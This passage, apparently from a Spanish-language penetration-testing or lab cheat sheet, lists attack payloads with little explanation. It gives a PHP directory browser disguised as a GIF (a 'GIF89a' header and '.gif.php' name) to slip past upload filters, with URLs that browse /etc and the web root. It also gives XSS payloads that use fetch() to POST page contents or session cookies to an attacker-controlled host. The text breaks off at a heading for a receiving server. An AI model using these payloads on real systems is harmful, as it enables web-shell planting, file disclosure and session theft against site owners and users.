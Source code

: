 \subsubsection*{File browser básico}

Fichero recomendado:

\begin{configbox}
file_browser.gif.php
\end{configbox}

Contenido:

\begin{configbox}
GIF89a
<?php
$dir = $_GET['dir'] ?? '.';
$files = scandir($dir);

foreach ($files as $f) {
    echo "<a href='?dir=$f'>$f</a><br>";
}
?>
\end{configbox}

Ejemplos de uso:

\begin{configbox}
http://<IP_SERVIDOR>:8080/uploads/file_browser.gif.php
http://<IP_SERVIDOR>:8080/uploads/file_browser.gif.php?dir=/var/www/html
http://<IP_SERVIDOR>:8080/uploads/file_browser.gif.php?dir=/etc
\end{configbox}

\subsubsection*{Payloads XSS}

Payload básico de validación:

\begin{configbox}
<img src=x onerror=alert(1)>
\end{configbox}

Payload para enviar el contenido HTML de la página a un servidor controlado por el atacante:

\begin{configbox}
<img src=x onerror="fetch(`http://<IP_ATACANTE>:8000`,{method:`POST`,body:document.body.innerHTML})">
\end{configbox}

Payload para enviar cookies de sesión en caso de que sean accesibles desde JavaScript:

\begin{configbox}
<img src=x onerror="fetch(`http://<IP_ATACANTE>:8000`,{method:`POST`,body:document.cookie})">
\end{configbox}

Servidor HTTP temporal para recibir peticiones:

